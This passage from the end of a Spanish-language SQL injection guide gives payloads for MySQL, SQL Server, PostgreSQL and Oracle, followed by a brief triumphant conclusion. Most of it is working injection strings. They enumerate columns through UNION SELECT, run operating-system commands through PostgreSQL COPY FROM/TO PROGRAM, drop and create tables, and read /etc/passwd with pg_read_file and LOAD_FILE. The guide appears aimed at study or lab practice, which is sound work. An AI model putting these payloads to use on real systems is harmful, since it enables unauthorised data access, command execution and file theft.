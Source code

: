 ### Enumeración de Columnas
```sql
-- MySQL/SQL Server
' UNION SELECT 1,COLUMN_NAME,DATA_TYPE,'columns',NOW() FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='tabla' -- 

-- PostgreSQL
' UNION SELECT 999,column_name,data_type,'columns',CURRENT_TIMESTAMP FROM information_schema.columns WHERE table_name='tabla' -- 

-- Oracle
' UNION SELECT 999,COLUMN_NAME,DATA_TYPE,'columns',SYSDATE FROM ALL_TAB_COLUMNS WHERE OWNER='ESQUEMA' AND TABLE_NAME='TABLA' -- 
```

### Remote Code Execution (RCE)
```sql
-- PostgreSQL - COPY FROM PROGRAM
'; DROP TABLE IF EXISTS temp_rce; CREATE TEMP TABLE temp_rce (output TEXT); COPY temp_rce FROM PROGRAM 'whoami'; SELECT * FROM temp_rce; --

-- PostgreSQL - COPY TO PROGRAM (sin output visible)
'; COPY (SELECT '') TO PROGRAM 'comando_del_sistema'; --
```

### Lectura de Archivos del Sistema
```sql
-- PostgreSQL - pg_read_file() (requiere casting)
' UNION SELECT '999',pg_read_file('/etc/passwd'),'test','test','2025-01-01 00:00:00'::timestamp --

-- MySQL - LOAD_FILE() (sin casting)
' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3,4,5 --
```

---

## 🎯 Conclusiones

Esta guía demuestra la importancia del **descubrimiento empírico** en SQL injection, especialmente para Oracle donde las tablas pueden estar ocultas detrás de sinónimos. Cada motor requiere técnicas específicas, pero la metodología sistemática garantiza enumeración completa independientemente del backend.

**🏆 Enumeración exitosa lograda en los 4 motores mediante técnicas adaptadas a cada arquitectura.**

---
*Documento generado el 3 de agosto de 2025 | Análisis de SQL Injection Multi-Motor*


